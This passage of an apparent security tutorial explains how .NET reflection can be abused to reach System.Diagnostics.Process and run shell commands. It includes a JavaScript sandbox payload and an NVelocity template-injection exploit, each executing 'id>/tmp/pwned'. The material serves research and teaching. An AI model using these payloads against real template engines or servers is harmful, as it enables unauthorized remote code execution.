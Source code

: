 {% code title="C#" %}
```csharp
var list = new List<string>();
list.GetType().ToString()  // "System.Collections.Generic.List`1[System.String]"
```
{% endcode %}

Finally, to convert this mutable `List` into a `String[]`, we'll use its [`ToArray()`](https://learn.microsoft.com/en-us/dotnet/api/system.collections.generic.list-1.toarray?view=net-9.0#system-collections-generic-list-1-toarray) method:

```javascript
const assembly = Helper.GetType().GetType().Assembly;
const load = assembly.GetType('System.Reflection.Assembly').GetMethods()[0];

const args = assembly.CreateInstance('System.Collections.Generic.List`1[System.String]');
args.Add('System.Diagnostics.Process');
const process = load.Invoke(null, args.ToArray());
```

With this new `Process` assembly, we can prepare the arguments for its [`Start(String, String)`](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-9.0#system-diagnostics-process-start\(system-string-system-string\)) method which takes the command to execute as its 1st argument, and the arguments (split by space) as shell arguments into the 2nd argument. If we list all the methods, this happens to be the 70th, and we can invoke it similar to before:

<pre class="language-javascript"><code class="lang-javascript">const args2 = assembly.CreateInstance('System.Collections.Generic.List`1[System.String]');
args2.Add('sh');
<strong>args2.Add('-c id>/tmp/pwned');
</strong>console.log(process.GetType('System.Diagnostics.Process').GetMethods()[70].Invoke(null, args2.ToArray()));
</code></pre>

This should save the output of `id` into `/tmp/pwned`.

Similarly, the [**NVelocity**](https://github.com/castleproject/NVelocity/blob/master/docs/nvelocity.md) templating framework can call arbitrary methods on C# objects, and thus is vulnerable to this Reflection abuse to reach RCE:

<pre class="language-velocity" data-title="Exploit 1"><code class="lang-velocity">#set( $assembly = $name.GetType().GetType().Assembly )
#set( $load = $assembly.GetType('System.Reflection.Assembly').GetMethods().Get(0) )
#set( $args = $assembly.CreateInstance("System.Collections.Generic.List`1[System.String]") )
$args.Add("System.Diagnostics.Process")
$args
#set( $process = $load.Invoke(null, $args.ToArray()) )
$process
#set( $args2 = $assembly.CreateInstance("System.Collections.Generic.List`1[System.String]") )
$args2.Add("bash")
<strong>$args2.Add("-c id>/tmp/pwned")
</strong>${process.GetType('System.Diagnostics.Process').GetMethods().Get(70).Invoke(null, $args2.ToArray())}
</code></pre>
